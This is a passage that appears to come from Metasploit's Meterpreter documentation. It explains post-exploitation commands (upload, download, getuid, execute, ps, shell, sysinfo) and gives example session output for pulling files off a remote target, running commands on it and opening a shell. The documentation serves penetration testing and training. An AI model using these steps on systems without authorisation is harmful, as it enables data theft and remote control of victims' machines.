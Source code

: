 **upload**

The ```upload``` command allows you to upload a file to the remote target. For example:

```
meterpreter > upload /tmp/data.bin /home/sinn3r/Desktop
[*] uploading  : /tmp/data.bin -> /home/sinn3r/Desktop
[*] uploaded   : /tmp/data.bin -> /home/sinn3r/Desktop/data.bin
meterpreter > 
```

**download**

The ```download``` command allows you to download a file from the remote target to your machine. For example:

```
meterpreter > download /home/sinn3r/Desktop/data.bin /tmp
[*] downloading: /home/sinn3r/Desktop/data.bin -> /tmp/data.bin
[*] download   : /home/sinn3r/Desktop/data.bin -> /tmp/data.bin
```

**ifconfig/ipconfig**

```ifconfig``` and ```ipconfig``` are actually the same thing. They allow you to see the network
interfaces on the remote machine.

**getuid**

The getuid command tells you the current user that Meterpreter is running on. For example:

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000, suid=1000, sgid=1000
```

**execute**

The ```execute``` command allows you to execute a command or file on the remote machine.
For example:

```
meterpreter > execute -f echo -a "hello > /tmp/hello.txt"
Process 5292 created.
```

**ps**

The ```ps``` command lists the running processes on the remote machine.

**shell**

The shell command allows you to interact with the remote machine's terminal (or shell). For
example:

```
meterpreter > shell
Process 5302 created.
Channel 6 created.
$
```

If you wish to get back to Meterpreter, do [CTRL]+[Z] to background the channel.

**sysinfo**

The sysinfo command shows you basic information about the remote machine. Such as:

* Computer name
```